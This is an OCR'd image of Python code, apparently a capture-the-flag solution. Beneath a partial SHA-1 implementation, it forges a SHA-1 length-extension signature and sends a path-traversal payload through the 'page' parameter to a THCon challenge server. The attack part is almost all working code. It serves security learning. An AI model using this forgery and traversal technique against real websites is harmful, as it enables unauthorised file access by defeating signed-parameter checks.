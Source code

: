 ```python
			e = d
			d = c
			c = rotl(b, 30)
			b = a
			a = temp

		h0 = add([h0, a])
		h1 = add([h1, b])
		h2 = add([h2, c])
		h3 = add([h3, d])
		h4 = add([h4, e])

	return (h0, h1, h2, h3, h4)

def pad(msg, sz = None):
	if sz == None:
		sz = len(msg)
	bits = sz * 8
	padding = 512 - ((bits + 8) % 512) - 64

	msg += b"\x80"	# append bit "1", and a few zeros.
	return msg + int(padding / 8) * b"\x00" + struct.pack(">q", bits) # don't count the \x80 here, hence the -8.

def sha1(msg):
    # These are the constants in a standard SHA-1
	return sha1_impl(pad(msg), 0x67452301 , 0xefcdab89 , 0x98badcfe , 0x10325476 , 0xc3d2e1f0)

# "Local Card Maker"-specific implementation starts here:

def sha1_bytes_to_str(result):
	return ''.join([hex(x)[2:].zfill(2) for x in result])

def get_h_values(hash_string):
    # Divide hash_string to 5 ints, 4 bytes each
    return [int(hash_string[i*8:(i+1)*8], 16) for i in range(5)]

# "view_profile" taken from site ("page" query parameter)
block_1_buf = b"dmlld19wcm9maWxl"
# Hash taken from site ("pHash" query parameter)
block_1_hash = b"7b6f8b016f25da478b9f28f878aa3be8cced66fd"
block_1_h_values = get_h_values(block_1_hash)
# taken from description of challenge
salt_len = 23

# "aaa" is padding, since the previous SHA-1 block contains the length at the end which is parsed by PHP as Base64 data.
# I align to 4 bytes in order for the appended path to be parsed correctly.
block_2_buf = b"aaa" + base64.encodebytes(b"/.././././././././phpinfo").replace(b"\n", b"")
# Pad this second block, use a custom size with additional 64 bytes to account for the first block (which is always padded to 64)
block_2_buf_padded = pad(block_2_buf, len(block_2_buf) + 64)
joined_buf_hash = sha1_bytes_to_str(sha1_impl(block_2_buf_padded, *block_1_h_values))
print(joined_buf_hash)
# Add 23 "A"s to simulate the SHA-1 block creation with the salt, but remove the salt since it'll be added by the server.
joined_buf = pad((b"A" * salt_len) + block_1_buf)[salt_len:] + block_2_buf
encoded_joined_buf = urllib.parse.quote_plus(joined_buf)
print(encoded_joined_buf)

print(requests.get("http://challenges1.thcon.party:2001/index.php?page=%s&pHash=%s" % (encoded_joined_buf, joined_buf_hash)).content)
```